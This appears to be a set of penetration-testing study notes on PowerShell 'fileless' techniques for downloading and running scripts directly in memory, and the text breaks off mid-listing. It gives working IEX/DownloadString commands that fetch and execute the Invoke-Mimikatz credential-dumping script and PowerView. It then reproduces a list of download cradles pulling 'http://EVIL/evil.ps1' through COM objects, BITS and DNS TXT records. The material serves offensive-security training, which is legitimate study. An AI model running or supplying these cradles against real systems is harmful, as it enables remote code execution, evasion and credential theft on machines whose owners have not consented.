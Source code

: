## PowerShell DownloadString-Fileless Method
AS we previously discussed, fileless attacks work by using some operating system functions to downlod the payload and exccute it directly. Powershell can also be used to perfom fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in the memory using the `Invoke-Expression` cmdlet or the alias `IEX`.
```bash
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Empire/master/data/module/source/credentials/Invoke-Mimikatz.ps1')
```
The `IEX` aslo accepts pipeline input.

```bash
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
## PowerShell Invoke-WebRequest
From PowerShell 3.0 onwards, the `Invoke-WebRequest` cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest` full name.
```bash 
    PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
`Harmj0y` has compiled an extensive list of PowerShell download cradles here. It is worth gaining familiarity with them and their nuances, such as a lack of proxy awareness or touching disk (downloading a file onto the target) to select the appropriate one for the situation.

## List of commands by HarmJ0y 
https://gist.github.com/HarmJ0y/bb48307ffa663256e239
```bash
# normal download cradle
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")

# PowerShell 3.0+
IEX (iwr 'http://EVIL/evil.ps1')

# hidden IE com object
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r

# Msxml2.XMLHTTP COM object
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText

# WinHttp COM object (not proxy aware!)
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText

# using bitstransfer- touches disk!
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r

# DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
#   code to execute needs to be a base64 encoded string stored in a TXT record
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))

# from @subtee - https://gist.github.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d
<#
<?xml version="1.0"?>
<command>
   <a>
```